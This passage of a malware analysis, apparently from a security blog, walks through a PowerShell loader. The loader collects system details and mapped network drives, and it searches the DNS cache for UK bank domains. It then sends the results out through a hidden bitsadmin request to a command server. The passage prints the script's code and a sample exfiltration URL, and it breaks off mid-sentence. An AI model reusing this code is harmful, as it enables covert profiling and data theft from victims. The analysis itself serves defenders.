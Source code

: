
$outD="";
$dd=Get-WmiObject -Class Win32_LogicalDisk | Where-Object {$_.Description -match 'Network'} | Select-Object ProviderName,DeviceID;
try{ if ($dd ){for ($i=0; $i -le $dd.length; $i++){$outD=$outD+'{'+$dd[$i].DeviceID+''+$dd[$i].ProviderName+'}';}} }catch {}
try{ if ($dd -and $outD -eq "" ){$outD='{'+$dd[$i].DeviceID+''+$dd.ProviderName+'}';}}catch {}
Basic information about the target system:

$v1=[System.Environment]::OSVersion.Version.Major;
$v2=[System.Environment]::OSVersion.Version.Minor;
$cp=Get-WmiObject  win32_processor | select Name;
try{ if ($cp.length -gt 0){ $cpu=$cp[0].Name }else{$cpu=$cp.Name} }catch {}
The most interesting part is the following. The script gets a list of DNS resolver cache via the ‘ipconfig /displaydns’ command and searches for interesting domains. The script contains a nice list of UK banks domains:

$oB="";
$b = @("nwolb.com","bankline","bankofscotland.co.uk","bankofscotland.co.uk","secure.lloydsbank.co.uk", \
       "secure.halifaxonline.co.uk","hsbc.co.uk","rbsdigital.com","barclays.co.uk","onlinebusiness.lloydsbank", \
       "tsb.co.uk","retail.santander.co.uk","business.santander.co.uk","onlinebanking.nationwide.co.uk");

$dn=ipconfig /displaydns  | select-string "Record Name"
forEach ($z in $dn) {
  for ($i=0; $i -le $b.length-1; $i++){
    if ($z -match $b[$i] -and $oB -notmatch $b[$i] ){ $oB+="*"+$b[$i];}
  }
}
If you are a UK bank customer and if you are performing online banking operations, there are chances that one of the domains above will be in your cache.
All the captured data are exfiltrated via an HTTP request:

$rp= -join ((65..90) + (97..122) | Get-Random -Count 16 | % {[char]$_})
$dm0 = "cmd.exe";
$ldf='/C bitsadmin /transfer '+$rp+' /download /priority FOREGROUND "'+$d[$did]+ \
    '?g=top.14.05&id='+$uuid+'&v='+$v1+'.'+$v2+'&c='+$rp+'&a='+$out+'&d='+$outD+ \
    '&n='+$env:ComputerName+'&bu='+$oB+'&cpu='+$cpu+'" '+$path+'\'+$uuid;
start-process -wiNdowStylE HiDden $dm0 $ldf;    
Here is an example of HTTP request:

"hxxps://cflfuppn[.]eu/sload/gate.php?g=top.14.05&id=C3FB4D56-AA47-B150-E48F-6ECA7E0F9A1F&v=10.0&c=DFnvTdwyapGVXEMZ&a=*armsvc*audiodg*browser_broker*chrome*chrome*chrome*chrome*chrome*chrome*chrome*chrome*chrome*chrome*chrome*ctfmon*dasHost*dwm*explorer*fontdrvhost*fontdrvhost*HxCalendarAppImm*HxTsr*Idle*jusched*lsass*ManagementAgentHost*MemoryCompression*MicrosoftEdge*MicrosoftEdgeCP*MicrosoftEdgeCP*MicrosoftEdgeCP*MicrosoftEdgeCP*MicrosoftEdgeCP*MSASCuiL*msdtc*MsMpEng*Music.UI*NisSrv*notepad*OfficeClickToRun*OfficeHubTasHost*powershell*Registry*SearchFilterHost*SearchIndexer*SearchProtocolHost*SearchUI*SecurityHealthService*services*SettingSyncHost*SgrmBroker*ShellExperienceHost*sihost*smartscreen*smss*splunkd*splunkwinevtlog*spoolsv*Sysmon*taskhostw*TPAutoConnect*TPAutoConnSvc*VGAuthService*vmacthlp*vmtoolsd*vmtoolsd*WinStore.App*WmiPrvSE*WVSScheduler&d={H:\\nas\test}{Z:}{}&n=WIN10VM&bu=*rootshell&cpu=Intel(R) Core(TM) i7-6920HQ CPU @ 2.90GHz” path=C:\Users\xavier\AppData\Roaming\C3FB4D56-AA47-B150-E48F-6ECA7E0F9A1F\C3FB4D56-AA47-B150-E48F-6ECA7E0F9A1F
The result of this request is stored in %APPDATA%\C3FB4D56-AA47-B150-E48F-6ECA7E0F9A1F\C3FB4D56-AA47-B150-E48F-6ECA7E0F9A1F and is parsed to take further actions. I presume that the returned content depends on the collection victim details. Based on the code below,  we can deduce the behaviour:
